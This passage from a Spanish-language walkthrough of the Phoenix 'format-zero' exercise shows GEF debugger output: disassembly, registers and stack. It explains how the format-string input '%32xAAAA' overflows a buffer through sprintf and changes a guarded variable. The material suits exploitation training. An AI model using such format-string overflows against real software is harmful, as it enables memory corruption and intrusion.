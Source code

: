 ```csharp
     0x4006f6 <main+89>        lea    rax, [rbp-0x30]
     0x4006fa <main+93>        mov    rsi, rdx
     0x4006fd <main+96>        mov    rdi, rax
     0x400700 <main+99>        mov    eax, 0x0
     0x400705 <main+104>       call   0x400500 <sprintf@plt>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "format-zero", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006f2 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

Al continuar la ejecución con `c` vemos que el buffer ha sido sobreescrito con espacios (generados por `%32x`) seguidos de las `AAAA`, lo que provoca la modificación de la variable `changeme`

```csharp
gef➤  c
Continuing.

Breakpoint 2, 0x000000000040070a in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x25              
$rbx   : 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rcx   : 0x0               
$rdx   : 0xffffffff        
$rsp   : 0x00007fffffffe620  →  0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rbp   : 0x00007fffffffe670  →  0x0000000000000001
$rsi   : 0x00007fffffffe325  →  0x0000400380000000
$rdi   : 0x00007fffffffe665  →  0x0000000000000000
$rip   : 0x000000000040070a  →  <main+109> mov eax, DWORD PTR [rbp-0x10]
$r8    : 0x2000            
$r9    : 0x8               
$r10   : 0x0               
$r11   : 0x00007ffff7dfa2e7  →  "-+   0X0x"
$r12   : 0x00007fffffffe6d8  →  0x00007fffffffe8d7  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x000000000040069d  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe620│+0x0000: 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"	 ← $rsp
0x00007fffffffe628│+0x0008: 0x0000000100000000
0x00007fffffffe630│+0x0010: "%32xAAAA"
0x00007fffffffe638│+0x0018: 0x000000000000000a
0x00007fffffffe640│+0x0020: "ffffe630AAAA"
0x00007fffffffe648│+0x0028: "ffffe630AAAA"
0x00007fffffffe650│+0x0030: "ffffe630AAAA"
0x00007fffffffe658│+0x0038: "ffffe630AAAA"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006fd <main+96>        mov    rdi, rax
     0x400700 <main+99>        mov    eax, 0x0
```